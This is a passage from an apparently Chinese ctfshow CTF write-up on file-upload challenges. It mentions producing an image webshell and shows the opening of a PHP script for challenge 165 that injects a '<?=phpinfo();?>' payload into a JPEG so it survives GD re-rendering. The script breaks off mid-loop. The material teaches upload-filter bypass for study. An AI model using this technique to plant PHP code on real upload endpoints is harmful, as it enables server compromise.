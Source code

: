 然后会在当前目录下生成一个图片马

![image-20210207211829060](ctfshow-文件上传/image-20210207211829060.png)

![image-20210207212634010](ctfshow-文件上传/image-20210207212634010.png)

## 165 二次渲染 jpg



```php
<?php

    $miniPayload = "<?=phpinfo();?>";


    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }

    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }

    set_error_handler("custom_error_handler");

    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;

        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }
```